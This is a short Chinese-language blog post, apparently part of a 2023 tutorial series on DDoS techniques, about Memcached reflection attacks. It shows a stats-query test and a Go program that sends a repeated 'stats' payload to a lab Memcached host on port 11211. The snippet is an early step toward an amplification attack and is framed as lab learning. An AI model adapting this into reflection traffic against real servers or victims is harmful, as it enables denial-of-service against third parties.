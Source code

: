 ```yaml
---
author: Sunny Tsai
title: "[Day 24] 閑的沒事 - Memcached反射攻擊"
date: 2023-10-07
math: true
tags: [
    "cloud",
    "memcached",
]
categories: [
    "2023鐵人賽"
]
series: ["2023鐵人賽-DDOS：閑的沒事就開始DDOS"]
---
```

# Memcached
Memcached跟Redis都是常見的快取（Caching）和分佈式數據儲存解決方案，兩者都是in-memory database，兩者都提供使用者低延遲、高效率來存取資料。兩者通常也都忘記設定權限。

# 測試
stats
![](https://imgur.com/Yg2Napz.png)

## 攔截封包
發送一個stats反射的封包
![](https://imgur.com/VBt7LGB.png)

# code
先用Dial發送一個
```
package main

import (
	"fmt"
	"log"
	"net"
	"time"
)

func main() {
	targetIP := "10.211.55.10"
	targetPort := 11211

	// 构建TCP连接
	conn, err := net.DialTimeout("tcp", fmt.Sprintf("%s:%d", targetIP, targetPort), 10*time.Second)
	if err != nil {
		log.Fatal(err)
	}
	defer conn.Close()

	// 构建Payload数据
	payload := "stats\r\nstats\r\nstats\r\nstats items\r\nstats\r\nstats\r\nstats\r\nstats\r\nstats\r\nstats\r\nstats\r\nstats\r\nstats\r\nstats\r\n"

	// 发送数据包
	_, err = conn.Write([]byte(payload))
	if err != nil {
		log.Fatal(err)
	}

	fmt.Println("Packet sent successfully!")
}
```
